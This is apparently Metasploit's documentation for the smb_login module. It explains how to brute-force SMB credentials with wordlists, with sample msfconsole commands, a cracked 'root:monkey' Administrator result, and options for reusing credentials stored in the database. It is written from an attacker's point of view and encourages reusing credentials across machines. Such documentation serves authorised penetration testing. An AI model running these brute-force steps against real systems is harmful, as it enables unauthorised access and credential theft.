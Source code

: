 The smb_login module is used to brute-force SMB remotely. SMB credentials are extra valuable for
you as an attacker, because they are system credentials, and you can probably reuse some of them
and log into more machines.

## Vulnerable Application

To use smb_login, make sure you are able to connect to a SMB service that supports SMBv1.

## Verification Steps

The following demonstrates a basic scenario of using the [built-in wordlists](https://github.com/rapid7/metasploit-framework/tree/master/data/wordlists) to brute-force SMB:

```
msf > use auxiliary/scanner/smb/smb_login 
msf auxiliary(smb_login) > set RHOSTS 192.168.1.80
RHOSTS => 192.168.1.80
msf auxiliary(smb_login) > set USER_FILE /Users/wchen/rapid7/msf/data/wordlists/unix_users.txt
USER_FILE => /Users/wchen/rapid7/msf/data/wordlists/unix_users.txt
msf auxiliary(smb_login) > set PASS_FILE /Users/wchen/rapid7/msf/data/wordlists/unix_passwords.txt
PASS_FILE => /Users/wchen/rapid7/msf/data/wordlists/unix_passwords.txt
msf auxiliary(smb_login) > run

[+] 192.168.1.80:445      - 192.168.1.80:445 SMB - Success: '.\root:monkey' Administrator
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(smb_login) > 
```

If you have a database connected, you should also see this credential logged:

```
msf auxiliary(smb_login) > creds
Credentials
===========

host          origin        service        public  private  realm  private_type
----          ------        -------        ------  -------  -----  ------------
192.168.1.80  192.168.1.80  445/tcp (smb)  root    monkey          Password

msf auxiliary(smb_login) 
```

## Options

By default, the smb_login module only requires the RHOSTS option to run. But in reality, you will
also need to supply user names and passwords. The following options are available to support
different credential formats:

**The USER_FILE option**

If you happen to manage all the found user names in a separate file, then this option would be
suitable for that. One per line.

An example of setting USER_FILE:

```
set USER_FILE [path to file]
```

**The PASS_FILE option**

If you happen to manage all the found passwords in a separate file, then this option would be
suitable for that. One per line.

```
set PASS_FILE [path to file]
```

**The USERPASS_FILE option**

If each user should be using a specific password in your file, then you can use this option. One
username/password per line:

```
set USERPASS_FILE [path to file]
```

**The DB_ALL_CREDS option**

This option allows you to reuse all the user names and passwords collected by the database:

```
set DB_ALL_CREDS true
```

**The DB_ALL_PASS option**

This option allows you to reuse all the passwords collected by the database.

```
set DB_ALL_PASS true
```

**The DB_ALL_USERS option**

This option allows you to reuse all the user names collected by the database.

```
set DB_ALL_USERS true
```

**The SMBUser option**

If you are testing a specific user, use this option.

```
set SMBUser [user name]
```

**The SMBPass option**

If you are testing a specific password, use this option.

```
set SMBPass [password]
```

Note: If an account has been successfully brute-forced, that account will not be tried again.

